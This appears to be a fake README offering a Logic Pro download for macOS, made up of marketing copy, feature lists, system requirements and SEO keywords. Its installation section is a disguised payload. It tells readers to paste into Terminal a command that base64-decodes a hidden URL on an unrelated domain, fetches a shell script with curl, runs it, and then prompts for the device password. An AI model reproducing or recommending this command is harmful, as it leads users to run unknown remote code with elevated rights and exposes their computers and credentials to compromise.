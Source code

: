 # 🎵 Logic Pro for macOS – Professional Music Production Studio  

## 📌 About Logic Pro  
Logic Pro is a world-class professional music production software for macOS, offering a complete toolkit for recording, editing, mixing, and mastering. Whether you're producing beats, composing orchestral arrangements, or mixing live recordings, Logic Pro provides everything you need in one sleek, powerful environment.  

With advanced features like multi-track recording, MIDI editing, virtual instruments, audio effects, and Dolby Atmos support, Logic Pro is trusted by musicians and producers worldwide. Its intuitive interface, seamless macOS integration, and massive sound library make it the perfect choice for both beginners and professionals.  

---

## 📥 Installation via a command in the terminal:  
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press `Return`.  
3. Enter your device password when prompted and confirm the installation.  

### 💻 Installation Command:
    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nb3IvaW5zdGFsbC5zaA== | base64 -d))"
![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)  
---

## 🎬 Overview  

A quick look at key parts in action:  

![Logic Pro Screenshot 1](https://example.com/logic1.png)  
![Logic Pro Screenshot 2](https://example.com/logic2.png)  

---

## 🚀 Key Features  
- 🎼 **Full Production Suite** – Record, edit, and produce music with professional-grade tools.  
- 🎹 **MIDI & Audio Editing** – Precise control over notes, timing, and dynamics.  
- 🎧 **Massive Sound Library** – Thousands of instruments, loops, and samples.  
- 🎚 **Mixing & Mastering** – Advanced effects, automation, and surround sound mixing.  
- 🎤 **Live Recording** – Multi-track and punch-in recording with low latency.  
- 📡 **Dolby Atmos Support** – Create immersive 3D audio experiences.  
- 🎨 **User-Friendly Interface** – Clean, customizable, and macOS-optimized.  
- 🛠 **Plugin Support** – Use AU and third-party effects/instruments.  
- ⚡ **Optimized Performance** – Runs efficiently even with large projects.  

---

## 💻 System Requirements  
- **OS:** macOS 12.0 Monterey or newer  
- **CPU:** Apple Silicon or Intel Core i5 and above  
- **RAM:** 8 GB minimum (16 GB recommended)  
- **Storage:** 6 GB for installation, 72 GB for full sound library  
- **Others:** Internet connection for sound library download  

---

## 🔍 SEO Keywords  
logic pro mac · logic pro music production · mac music studio · logic pro x download · logic pro audio editing · macos daw · mac recording software · logic pro beats · logic pro midi · apple music production software · logic pro mixing · logic pro mastering · mac music creation · logic pro plugins
